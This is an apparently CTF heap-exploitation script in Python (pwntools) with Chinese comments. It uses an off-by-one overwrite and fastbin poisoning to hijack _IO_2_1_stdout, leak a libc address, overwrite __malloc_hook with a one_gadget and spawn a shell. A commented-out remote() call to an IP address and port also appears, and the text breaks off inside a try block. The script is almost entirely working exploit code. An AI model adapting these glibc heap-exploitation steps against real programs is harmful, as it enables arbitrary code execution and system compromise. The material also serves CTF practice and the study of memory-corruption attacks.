 ```python
  
  #此时fastbin中同样地址的chunk的size已改为0x90
  
  #需要利用上一个相邻chunk的off-by-one修改为0x71
  
	delete(1)
	add('c'*0x108+'\x71',1,0x108)
  
	add('ddd',5,0x60)#从fastbin中申请fd指向_IO_2_1_stdout的chunk
  
  #0x7fxxxxxxx620-0x7fxxxxxxx5dd=0x43
  
  #0x43-0x10=0x33
  
	add('\x00'*0x33 + p64(0xfbad1800) +p64(0)*3 + p8(0x88),5,0x60)
	
	libc_addr = u64(p.recvuntil("\x7f",timeout=0.2)[-6:].ljust(8,'\x00'))
	if libc_addr == 0:
       		exit(-1)
	libc_base = libc_addr - 0x3C48E0
	print 'libc base = '+str(hex(libc_base))
	malloc_hook=libc_base+libc.symbols['__malloc_hook']
	print 'malloc_hook = '+str(hex(malloc_hook))
	onegadget = libc_base+0xf1207
	addr = malloc_hook-0x23
	
  #故技重施写malloc_hook
  
	add('aaa',6,0x10)
	add('aaa',7,0x100)
	add('aaa',8,0x60)
	add('aaa',9,0x30)
	add('aaa',10,0x20)

	delete(6)
	delete(8)
	add('b'*0x18+'\xc1',0,0x18)
	delete(7)
	add('aaa',7,0x100)
	add(p64(addr),8,0x90)
	delete(7)
	add('c'*0x108+'\x71',7,0x108)
	add('ddd',11,0x60)
	add('\x00\x00\x00'+p64(0)+p64(0)+p64(onegadget),12,0x60)
	
	p.recvuntil(">>>")
	p.sendline("1")
	p.recvuntil("idx:")
	p.sendline('6')
	p.recvuntil("len:")
	p.sendline('1')
	p.interactive()
	


if __name__ == "__main__":
    while True:
        p = process('./pwn')
        #p = remote("101.200.53.148 ",  34521)
        
        try:
        	pwn()
		
```